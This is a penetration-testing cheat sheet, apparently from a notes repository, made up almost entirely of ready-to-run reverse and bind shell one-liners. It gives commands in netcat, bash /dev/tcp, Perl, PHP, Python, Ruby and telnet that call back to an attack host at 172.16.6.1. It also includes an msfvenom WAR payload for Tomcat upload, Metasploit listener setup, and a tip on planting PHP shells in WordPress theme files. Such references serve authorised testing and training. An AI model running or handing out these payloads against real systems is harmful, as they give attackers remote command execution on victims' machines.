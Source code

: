 ### Reverse Shells
#### Listensers
### Top Resource
````
https://www.revshells.com/
````
```
nc -nlvp 1234
```
- Always set up a netcat listener before executing a bash reverse shell

- You can also use multi handler from metasploit to catch incoming reverse shells
```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 1234
run
```
#### Netcat Reverse Shell
```
nc 172.16.6.1 1234 -e /bin/sh
```
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Basic bash reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```
- Another bash reverse shell

#### Perl Reverse Shell
```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP Reverse Shell
```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application
```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Standard python reverse shell

#### Ruby Reverse Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Linux ruby reverse shell
```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Windows ruby reverse shell

#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
```
msfconsole
use exploit /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

#### Reverse shell over the Telnet Protocol
```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Bind Shells
#### Netcat Bind Shell
```
nc -nlvp 1234 -e /bin/sh
```
- This is executed on the target box and waits for an incoming connection
```
nc [target box ip] 1234
```
- This is executed on your attack box to connect to the listener on the target




